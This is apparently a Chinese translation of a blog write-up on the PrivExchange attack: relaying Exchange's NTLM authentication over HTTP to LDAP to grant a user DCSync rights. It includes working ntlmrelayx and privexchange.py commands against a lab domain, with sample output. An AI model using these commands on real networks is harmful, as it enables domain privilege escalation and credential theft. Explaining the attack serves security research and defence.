

## NTLM中继攻击

NTLM中继攻击并不是一种新的攻击手法。以前，我们主要关注的是通过SMB转发NTLM身份验证，以此来在其他主机上执行代码。但遗憾的是，大多数公司网络并未启用SMB签名，因此我们不能通过该方法进行攻击。但我们可以试试其他协议，其他协议也容易受到中继攻击。在我看来，最有意思的协议是LDAP，它可以用来读取和修改(Active)目录中的对象。你可以访问该链接复习一下NTLM中继攻击([https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/)。](https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/)%E3%80%82) 简易的攻击流程是，在没有进行相关的配置来阻止攻击的情况下，我们可以通过Windows(或自动地)将攻击者的计算机连接到网络中的其他计算机时执行(自动)身份验证，如下图所示：

[![](https://p0.ssl.qhimg.com/t01933b3d9c243d54de.png)](https://p0.ssl.qhimg.com/t01933b3d9c243d54de.png)

当身份验证进行到LDAP这一步时，可以修改目录中的对象来授予攻击者权限，包括DCSync操作所需的权限。

因此，如果我们可以让Exchange服务器通过NTLM身份验证向我们进行身份验证，我们就可以执行ACL攻击。注意，仅当受害者通过HTTP而不是通过SMB对我们进行身份验证时，才能中继到LDAP。（将在技术详解一节中详细阐述）



## 让Exchange进行身份验证

到目前为止，唯一缺少的部分是让Exchange对我们进行身份验证的简单方法。ZDI研究员发现可以通过Exchange PushSubscription功能使Exchange通过HTTP对任意URL进行身份验证。在他们的文章中([https://www.thezdi.com/blog/2018/12/19/an-insincere-form-of-flattery-impersonating-users-on-microsoft-exchange](https://www.thezdi.com/blog/2018/12/19/an-insincere-form-of-flattery-impersonating-users-on-microsoft-exchange)) 他们使用此漏洞将NTLM身份验证中继回Exchange(这称为反射攻击)并冒充其他用户。如果我们将此与默认情况下Exchange具有的高权限相结合并执行中继攻击而不是反射攻击，我们可以使用这些权限为自己授予DCSync权限。推送通知服务有一个选项，即每隔X分钟发送一条消息(攻击者可以指定X)，即使没有发生任何事件，即使收件箱中没有新来信，也可以确保Exchange连接到我们。



## 执行权限提升攻击

下面显示了上述攻击的示意图，显示了为升级权限而执行的步骤：

[![](https://p1.ssl.qhimg.com/t01fd2740d19b45b983.png)](https://p1.ssl.qhimg.com/t01fd2740d19b45b983.png)

我们需要两个工具来执行攻击，`privexchange.py`([https://github.com/dirkjanm/privexchange/)和`ntlmrelayx`(https://github.com/SecureAuthCorp/impacket/)。](https://github.com/dirkjanm/privexchange/)%E5%92%8C%60ntlmrelayx%60(https://github.com/SecureAuthCorp/impacket/)%E3%80%82) 以域控制器上的LDAP作为目标，以中继模式启动ntlmrelayx，对攻击者所控制的ntu用户进行提权操作：

```
ntlmrelayx.py -t ldap://s2016dc.testsegment.local --escalate-user ntu
```

现在我们运行privexchange.py脚本：

```
user@localhost:~/exchpoc$ python privexchange.py -ah dev.testsegment.local s2012exc.testsegment.local -u ntu -d testsegment.local
Password: 
INFO: Using attacker URL: http://dev.testsegment.local/privexchange/
INFO: Exchange returned HTTP status 200 - authentication was OK
ERROR: The user you authenticated with does not have a mailbox associated. Try a different user.
```
